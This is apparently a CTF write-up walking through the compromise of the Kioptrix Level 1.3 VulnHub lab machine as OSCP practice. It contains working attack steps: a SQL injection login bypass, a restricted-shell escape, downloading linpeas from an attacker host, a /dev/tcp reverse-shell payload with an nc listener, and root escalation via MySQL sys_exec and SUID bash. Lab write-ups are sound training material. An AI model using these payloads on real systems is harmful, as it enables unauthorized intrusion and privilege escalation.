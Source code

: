 ```yaml
---
layout: post
title: " Kioptrix - Level 1.3"
date: 2020-08-11
ctf: true
excerpt: "Walkthrough for Kioptrix Level 1.3 on Vulnhub"
tags: [SQL injection, mysql, privilege escalation]
comments: false
---
```

[Kioptrix]( https://www.vulnhub.com/entry/kioptrix-level-13-4,25) Level 1.3 is a vulnerable machine found on the [NetSecFocus Trophy Room](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) list which I have been using as preparation for the OSCP. Below is a walkthrough to compromise this machine.

First, after downloading and importing the machine into VMware, I had to figure out the IP address of the machine. I used **netdiscover -i eth0** until I came across the IP of this machine.

![Kioptrix Level 1.3 netdiscover](/assets/img/KioptrixLevel41.png)

Let's run **threader3000** to enumerate the open ports on this box.

![Kioptrix Level 1.3 threader3000](/assets/img/KioptrixLevel42.png)

Let's run the suggested nmap scan and see what results we get.

![Kioptrix Level 1.3 nmap](/assets/img/KioptrixLevel43.png)

It appears that we have SSH, HTTP and SMB open. Let's connect with rpcclient by running **rpcclient -H [machine IP] -U "" ** to see if anonymous user access is allowed.

![Kioptrix Level 1.3 rpcclient anonymous](/assets/img/KioptrixLevel44.png)

Success! let's run **enumdomusers** to enumerate the users.

![Kioptrix Level 1.3 enumdomusers rpcclient](/assets/img/KioptrixLevel45.png)

I also ran **queryuser** on all the users above, but there was nothing listed in the comments that could be valuable. Next, I decided to take a look at the website.

![Kioptrix Level 1.3 website](/assets/img/KioptrixLevel46.png)

The website asks for login credentials. The two most likely methods of attack are either brute forcing credentials with something like hydra, or with SQL injection. I decided to try some basic SQL injection techniques in the password field first with the three users we uncovered (robert, john, loneferret). After some trial and error, I uncovered that utilizing **' OR 1 =1 -- -** in the password field worked and bypassed authentication for john and robert.

![Kioptrix Level 1.3 john credentials](/assets/img/KioptrixLevel47.png)

![Kioptrix Level 1.3 robert credentials](/assets/img/KioptrixLevel48.png)

We now had a username and password for **john** and **robert**. I tried to ssh as both of them and was able to get in (even though robert's looks like a base64 encoded password, it is not and works as shown above). For both john and robert, they login with a restricted shell as shown below. Running help shows a minimal amount of commands that can be run from this restricted shell.

![Kioptrix Level 1.3 john restricted shell](/assets/img/KioptrixLevel49.png)

Fortunately, we can use echo to our advantage and break out of the shell with **echo os.system('/bin/bash')**.

![Kioptrix Level 1.3 break out of restricted shell](/assets/img/KioptrixLevel410.png)

Success! We have broken out of the restricted shell. I ran **sudo -l** and neither john or robert could run sudo.

![Kioptrix Level 1.3 john sudo -l](/assets/img/KioptrixLevel411.png)

![Kioptrix Level 1.3 robert sudo -l](/assets/img/KioptrixLevel412.png)

Let's do some enumeration and see what we can find, first let's run **cd /tmp** to navigate to the tmp directory which is usually writeable by all.

![Kioptrix Level 1.3 cd /tmp](/assets/img/KioptrixLevel413.png)

Next, on my attacker pc, I hosted a python3 HTTP server from a directory where I had linpeas available.

![Kioptrix Level 1.3 python3 http server](/assets/img/KioptrixLevel414.png)

From the victim PC, run **wget http://[attacker ip]:8000/linpeas.sh** to save linpeas.sh to the /tmp directory. Next, run **chmod +x linpeas.sh** to make it executable

![Kioptrix Level 1.3 wget](/assets/img/KioptrixLevel415.png)

Next, I ran **./linpeas.sh** to enumerate the system. A couple of interesting things showed up related to mysql.

![Kioptrix Level 1.3 linpeas.sh](/assets/img/KioptrixLevel416.png)

It appears that mysql can be logged into as root without a password and you can execute system commands from it. Let's login to mysql with **mysql -U root -N**.

![Kioptrix Level 1.3 mysql root login](/assets/img/KioptrixLevel417.png)

I first ran **show databases;** and then ran **use members;** to select the members database followed by **show tables;** . Next, I ran **select * from members;** to enumerate the data in the table. This only provided us with the login credentials we already had for john and robert.

![Kioptrix Level 1.3 enumerate members database](/assets/img/KioptrixLevel418.png)

Next, I went back to what linpeas mentioned, which is that you can execute commands. The method mentioned did not work, so I did some research and came across [this article](https://recipeforroot.com/mysql-to-system-root/). It mentions **mysqludf_sys.so**, which is mentioned in the linpeas results above. Let's attempt the rest of the commands and see what happens. First, let's run **use mysql;** to select that database.

![Kioptrix Level 1.3 use mysql](/assets/img/KioptrixLevel419.png)

Next, on our attacker PC, let's run **nc -nvlp 4444**

![Kioptrix Level 1.3 nc reverse listener](/assets/img/KioptrixLevel420.png)

Next, let's **select sys_exec('bash -i >& /dev/tcp/[attacker ip]/4444 0>&1');**. Unfortunately, this did not work.

![Kioptrix Level 1.3 reverse shell failure](/assets/img/KioptrixLevel421.png)

Let's see if we can make the bash executable a SUID with **select sys_exec('chmod +s /bin/bash');**

![Kioptrix Level 1.3 chmod /bin/bash](/assets/img/KioptrixLevel422.png)

This appears to have worked, let's quit mysql and run **cd /bin** followed by **ls -al**. You will see that **bash** is now a SUID.

![Kioptrix Level 1.3](/assets/img/KioptrixLevel423.png)

Since this is an old version of bash, we can run **bash -p**, which runs it in privileged mode utilizing the SUID user, which is root.

![Kioptrix Level 1.3 root shell](/assets/img/KioptrixLevel424.png)

Next, let's navigate run **cd /root** and **ls -al** to list directory contents for the root user. There is a file named congrats.txt. Let's run **cat congrats.txt** to list the contents of this file.

![Kioptrix Level 1.3 congrats.txt](/assets/img/KioptrixLevel425.png)

And we're all set!
